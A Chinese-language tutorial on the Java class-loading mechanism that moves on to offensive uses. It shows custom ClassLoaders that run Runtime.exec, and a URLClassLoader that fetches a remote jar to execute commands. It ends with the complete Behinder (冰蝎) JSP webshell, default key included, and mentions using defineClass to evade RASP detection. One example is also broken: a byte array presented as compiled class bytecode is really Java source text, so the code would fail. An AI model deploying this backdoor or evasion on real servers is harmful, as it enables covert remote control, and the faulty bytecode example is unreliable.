


# 类加载机制

## 概念

Java属于编译型语言，编写的 Java 文件需要通过编译成 class 文件后，再交由 JVM 来执行 class 文件中的字节码来执行程序。Java类加载器（Java Classloader）是 Java 运行时环境（Java Runtime Environment）的一部分，负责动态加载 Java 类到 Java 虚拟机的内存空间中，用于加载系统、网络或者其他来源的类文件。



通过上面的流程图，我们可以很清晰的了解到类加载的过程：

1. 编写的`ClassLoaderTest.java`文件经过 javac 编译成 `ClassLoaderTest.class`文件
2. `classLoaderTest.class`文件经过加载->连接（验证-准备-解析）->初始化的操作后进入虚拟机内存中
3. Java虚拟机内存通过自身的方法区中的字节码二进制数据区引用堆区中的 Class 对象

## 类加载器

一切的 Java 类都必须经过 JVM 加载后才能运行，而`ClassLoader`的主要作用就是实现 Java 类文件的加载。JVM 类加载器一共有如下几种：

- Bootstrap ClassLoader（引导类加载器）
- Extension ClassLoader（扩展类加载器）
- App ClassLoader（系统类加载器）

某些时候我们获取一个类的类加载器时候可能会返回一个`null`值，如:`java.io.File.class.getClassLoader()`将返回一个`null`对象，因为`java.io.File`类在JVM初始化的时候会被`Bootstrap ClassLoader`加载，我们在尝试获取被`Bootstrap ClassLoader`类加载器所加载的类的`ClassLoader`时候都会返回`null`。

`ClassLoader`类有如下核心方法：

- `loadClass`：加载指定的 Java 类
- `findClass`：查找指定的 Java 类
- `findLoadedClass`：查找 JVM 已经加载过的类
- `defineClass`：定义一个 Java 类
- `resolveClass`：链接指定的 Java 类

## 类加载流程

`ClassLoader`类中的`loadClass`方法源码如下

```java
protected Class<?> loadClass(String name, boolean resolve)
        throws ClassNotFoundException
    {
        synchronized (getClassLoadingLock(name)) {
            // First, check if the class has already been loaded
            Class<?> c = findLoadedClass(name);
            if (c == null) {
                long t0 = System.nanoTime();
                try {
                    if (parent != null) {
                        c = parent.loadClass(name, false);
                    } else {
                        c = findBootstrapClassOrNull(name);
                    }
                } catch (ClassNotFoundException e) {
                    // ClassNotFoundException thrown if class not found
                    // from the non-null parent class loader
                }

                if (c == null) {
                    // If still not found, then invoke findClass in order
                    // to find the class.
                    long t1 = System.nanoTime();
                    c = findClass(name);

                    // this is the defining class loader; record the stats
                    PerfCounter.getParentDelegationTime().addTime(t1 - t0);
                    PerfCounter.getFindClassTime().addElapsedTimeFrom(t1);
                    PerfCounter.getFindClasses().increment();
                }
            }
            if (resolve) {
                resolveClass(c);
            }
            return c;
        }
    }
```

通过源码可以看到`classLoader`类的加载过程：

1. 在`loadClass`方法里，首先用了`findLoadedClass`方法检查类是否被加载过，如果加载过就直接返回类对象
2. 接着判断是否传入父类加载器，如果传入则使用父类加载器，否则使用 JVM 的`Bootstrap ClassLoader`加载
3. 如果上一步加载类失败，那么调用自身的`findClass`方法继续尝试加载类。
4. 最后返回一个被JVM加载后的`java.lang.Class`类对象。

## 双亲委派机制

> 双亲委派机制是Java类加载的核心，该机制一定程度的保证了类加载的安全性。简单来讲这个机制就是“当有载入类的需求时，类加载器会先请示父加载器帮忙载入，如果没有父加载器那么就使用BootStrapClassLoader进行加载，如果所有的父加载器都找不到对应的类，那么才由自己依照自己的搜索路径搜索类，如果还是搜索不到，则抛出ClassNotFoundException

类加载器委派关系图如下：


其中的`UserDegined ClassLoader`为自定义的类加载器，在设置`App ClassLoader`为父加载器之后，就可以使用双亲委派机制。

**双亲委派机制的好处？**

1. 可以避免某些类重复加载，交由父类加载器进行加载，不用子加载器再次重复加载、
2. 保证java核心库的类型安全。比如网络上传输了一个`java.lang.Object`类，通过双亲模式传递到启动类当中，然后发现其`Object`类早已被加载过，所以就不会加载这个网络传输过来的`java.lang.Object`类，保证我们的 java 核心 API 库不被篡改，出现类似用户自定义`java.lang.Object`类的情况。

## 自定义类加载器

`TestExp`类的代码如下

```java
import java.io.IOException;

public class TestExp  {
    public void exp() throws IOException {
        Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
    }
}
```

如果`TestExp`类存在，我们通过如下代码就可以调用`exp`方法弹出计算器
```java
var vuln = new TestExp();
vuln.exp();
```

但如果`TestExp`类不存在，那我们就需要通过自定义类加载器来重写。其中需要注意的是，我们如果想要遵循双亲委派机制，需要在自定义类加载器中重写`findClass`方法。实现代码如下
```java
import java.lang.reflect.Method;

public class TestClassLoader extends ClassLoader{

    // 加载的类名
    private static String ClassName = "TestExp";
    // 加载的类字节码
    private static byte[] ClassBytes = new byte[]{
            105, 109, 112, 111, 114, 116, 32, 106, 97, 118, 97, 46, 105, 111, 46, 73, 79, 69, 120, 99, 101, 112, 116, 105, 111, 110, 59, 10, 10, 112, 117, 98, 108, 105, 99, 32, 99, 108, 97, 115, 115, 32, 84, 101, 115, 116, 69, 120, 112, 32, 32, 123, 10, 32, 32, 32, 32, 112, 117, 98, 108, 105, 99, 32, 118, 111, 105, 100, 32, 101, 120, 112, 40, 41, 32, 116, 104, 114, 111, 119, 115, 32, 73, 79, 69, 120, 99, 101, 112, 116, 105, 111, 110, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82, 117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 111, 112, 101, 110, 32, 47, 83, 121, 115, 116, 101, 109, 47, 65, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 115, 47, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114, 46, 97, 112, 112, 34, 41, 59, 10, 32, 32, 32, 32, 125, 10, 125, 10, 10
    };

    // 重写findClass方法
    @Override
    public Class<?> findClass(String name) throws ClassNotFoundException{
        // 只处理加载的类
        if(name.equals(ClassName)){
            // 调用JVM的defineClass定义加载的类
            return defineClass(ClassName, ClassBytes, 0,ClassBytes.length);
        }
        return super.findClass(name);
    }

    public static void main(String[] args) throws Exception{
        // 创建自定义加载器
        var ClassLoader = new TestClassLoader();

        try{
            // 使用自定义加载器加载TestExp类
            Class ExpClass = ClassLoader.loadClass(ClassName);
            // 使用反射创建TestExp类
            Object ExpInstance = ExpClass.newInstance();
            // 获取exp方法
            Method method = ExpInstance.getClass().getMethod("exp");
            // 执行exp方法
            method.invoke(ExpInstance);

        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }
    }
}
```



可以看出，自定义类加载器的过程为：继承`ClassLoader`类 -> 重写`findClass`方法 -> 在`findClass`方法中调用`defineClass`方法定义类。

利用自定义类加载器我们可以在 webshell 中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的 defineClass 方法绕过RASP 检测，也可以用于加密重要的 Java 类字节码（只能算弱加密了）。

## URLClassLoader

`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载本地和远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程的 jar 文件来实现远程的类方法调用。

我们先写一个可以执行命令的 TestExp.java 文件，编译成 class 文件
```java
import java.io.IOException;

public class TestExp  {
    public static Process exp(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }
}
```

打包成 jar 文件
```bash
jar -cvf TestExp.jar TestExp.class
```

编写 TestClassLoader 利用类
```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

public class TestClassLoader{
    public static void main(String[] args){
        try{
            // 定义加载的远程jar包地址
            URL url = new URL("http://127.0.0.1/TestExp.jar");
            // 创建URLClassLoader对象，加载jar包
            URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
            // 定义执行命令
            String cmd = "ls";
            // 通过URLClassLoader加载远程jar包中的TestExp类
            Class TestExp = urlClassLoader.loadClass("TestExp");
            // 调用TestExp中的exp方法
            Process process = (Process) TestExp.getMethod("exp",String.class).invoke(null, cmd);

            // 获取命令执行输入流
            InputStream in = process.getInputStream();
            ByteArrayOutputStream out = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int a = -1;

            //读取命令执行结果流
            while ((a = in.read(b))!= -1){
                out.write(b, 0, a);
            }
            //打印命令执行结果
            System.out.println(out.toString());
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

运行结果

## 类加载在webshell中的应用

冰蝎的 jsp 后门就是通过自定义类加载器去实现：冰蝎的客户端将待执行的命令或者代码通过动态编译成类字节码并加密传到冰蝎的 JSP 后门，后门经过base64编码和 AES 解密后得到一个随机类名的类字节码，然后调用自定义的类加载器加载，最终通过重写的`Object`类的`equals`方法实现攻击利用。其中`equals`方法传入的`pageContext`对象是为了便于获取到请求和响应对象，需要注意的是冰蝎的命令执行等参数不会从请求中获取，而是直接插入到了类成员变量中。

冰蝎 JSP 后门
```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {

        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%>
<%
    if (request.getMethod().equals("POST")) {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        session.putValue("u", k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
    }
%>
```

